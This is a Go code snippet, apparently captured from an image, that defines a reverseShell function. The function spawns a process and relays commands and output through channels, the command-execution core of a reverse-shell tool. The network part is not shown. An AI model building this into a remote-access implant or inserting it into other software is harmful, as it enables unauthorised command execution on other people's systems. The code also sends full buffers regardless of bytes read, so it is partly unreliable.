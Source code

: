 ```go
func reverseShell(path string, send chan<- []byte, recv <-chan []byte) {
  // When the function return, which means cmd.Run() is finished
  // notify all goroutines to close
  ctx, cancel := context.WithCancel(context.Background())
  defer func() {
    cancel()  
  }()
 
  cmd := exec.Command(path)
  stdin, _ := cmd.StdinPipe()
  stdout, _ := cmd.StdoutPipe()
  stderr, _ := cmd.StderrPipe()
  // for stdin: 
  // 1. Get commands from channel recv
  // 2. Write the commands to stdin pipe
  go func() {
    for {
      select {
      case input := <-recv:
        stdin.Write(append(input, byte('\n')))
      case <-ctx.Done():
	      return
      }
    }
  }()
  // for stdout: 
  // 1. Pipe stdout to buf
  // 2. Send buf to channel send
  bufsize := 4096
  go func() {
    for {
      select {
      case <-ctx.Done():
        return
      default:
        buf := make([]byte, bufsize)
        stdout.Read(buf)
        send <- buf
      }
    }
  }()
  // for stderr:
  // 1. Pipe stderr to buf
  // 2. Send buf to channel send
  go func() {
    for {
      select {
      case <-ctx.Done():
        return
      default:
        buf := make([]byte, bufsize)
        stderr.Read(buf)
        send <- buf
      }
    }
  }()
  cmd.Run()
}
```
